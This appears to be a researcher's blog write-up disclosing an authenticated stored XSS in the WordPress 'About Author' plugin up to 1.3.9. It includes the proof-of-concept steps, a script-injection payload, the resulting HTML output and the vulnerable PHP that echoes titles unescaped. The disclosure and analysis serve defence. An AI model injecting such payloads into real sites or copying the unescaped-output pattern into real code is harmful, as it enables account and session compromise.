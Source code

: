 ```yaml
---
layout: post
title: Wordpress About Author <= 1.3.9 Authenticated Stored XSS
date: 2019-10-25 11:24 -0300
categories: [dctf, ctf, writeups]
tags: [DCTF, DefCamp, '2017', writeups, CTF,  challange]
pin: false
hidden: false
---
```


![Wordpress About Author <= 1.3.9 Authenticated Stored XSS](</uploads/Screenshot from 2024-03-15 19-59-14.png>)

A vulnerability has been identified in the WordPress "About Author" plugin versions lower than or equal to 1.3.9. This plugin is affected by an authenticated Stored Cross-site scripting (XSS) vulnerability. This means that an attacker with a valid account on the WordPress website could inject malicious code into the plugin, which could be executed whenever a user views the affected page. This can lead to various malicious actions such as stealing sensitive user information, spreading malware, or taking control of the affected website. It is recommended to update the plugin to its latest version as soon as possible to prevent any potential attacks.

#### Intial submission of the vulnerability

``````markdown
# Exploit Title: Wordpress About Author <= 1.3.9 Authenticated Stored XSS Vulnerability
# Date: 25-10-2019
# Exploit Author: Lucian Ioan Nitescu
# Contact: https://twitter.com/LucianNitescu
# Webiste: https://nitesculucian.github.io
# Vendor Homepage: https://weblizar.com/plugins/about-author-pro/
# Software Link: https://wordpress.org/plugins/about-author/
# Version: 1.3.9
# Tested on: Ubuntu 18.04 / Wordpress 5.3
 
1. Description:  
 
Wordpress About Author plugin with a version lower or equal with 1.3.9 is affected by an authenticated Stored Cross-site scripting (XSS) vulnerability.

2. Proof of Concept: 
 
Stored Cross-site scripting (XSS)
- Using an Wordpress user, access < your_target > /wp-admin/post-new.php?post_type=about_author (About Author > Add new)
- Insert in post_title input the following payload: `"><script>alert(1)</script>`
- Save. The Stored Cross-site scripting (XSS) vulnerability is affecting all pages/routes within the Wordpress Admin panel.

Stored response output:
```
<div id="AMSA" style="display:none;">
<h3>Select About Author Shortcode And Widget To Insert Into Post</h3>
<select id="Ab_Tm_ME">
<option value='5748'>wqddqwqd</option><option value='5749'>ads</option><option value='5751'>
"><script>alert(1)</script></option></select>
<button class='button primary' id='Ab_tm_insert'>Insert About Author Shortcode</button>
</div>
```

``````

#### Detailed analysis of the vulnerability


By going within the admin panel at `About Author > Add new`, we can add the following payload `"><script>alert(1)</script>`. This is not the issue; XSS vulnerabilities are mainly output-related issues. Therefore, by looking at `/wp-content/plugins/about-author` at lines `335-353`, we can observe the following unescaped output of user-supplied data on line `345` that leads to the stored XSS by outputting database stored data.

```php
<div id="AMSA" style="display:none;">
	<?php $all_posts = wp_count_posts( 'about_author')->publish;
	if(!$all_posts==null) {?>
	<h3><?php esc_html_e('Select About Author Shortcode And Widget To Insert Into Post','WL_ABTM_TXT_DM');?></h3>
	<select id="Ab_Tm_ME">
		<?php
		global $wpdb;
		$A_B_T_shortcodegallerys = $wpdb->get_results("SELECT post_title, ID FROM $wpdb->posts WHERE post_status = 'publish'	AND post_type='about_author' ");
		foreach ($A_B_T_shortcodegallerys as $A_B_T_shortcodegallery) {
			if($A_B_T_shortcodegallery->post_title) { $title_var=$A_B_T_shortcodegallery->post_title;} else { $title_var="(no title)"; }
			echo "<option value='".$A_B_T_shortcodegallery->ID."'>".$title_var."</option>";
		} ?>
	</select>
	<button class='button primary' id='Ab_tm_insert'><?php esc_html_e('Insert About Author Shortcode','WL_ABTM_TXT_DM');?></button>
	<?php } else { ?>
		<h1 align="center"> <?php esc_html_e( 'No About Author Shortcode not_found ', 'WL_ABTM_TXT_DM' ); ?> </h1><?php
	}
	?>
</div>
```

The successful exploitation of the vulnerability looks as follows in the HTML output:

```html
<div id="AMSA" style="display:none;">
<h3>Select About Author Shortcode And Widget To Insert Into Post</h3>
<select id="Ab_Tm_ME">
<option value='5748'>wqddqwqd</option><option value='5749'>ads</option><option value='5751'>
"><script>alert(1)</script></option></select>
<button class='button primary' id='Ab_tm_insert'>Insert About Author Shortcode</button>
</div>
```

Note that, due to the `style="display:none;"` of the div tag, the vulnerability was available on all pages of the WordPress Admin panel. Keep in mind that `"><script>alert(1)</script>` will be executed regardless of the `style="display:none;"`.


#### How to fix

Update to the latest available version of the About Author plugin.

#### Public appearances

- https://plugins.svn.wordpress.org/about-author/trunk/readme.txt

#### Other references

- https://www.acunetix.com/vulnerabilities/web/wordpress-plugin-about-author-cross-site-scripting-1-3-9/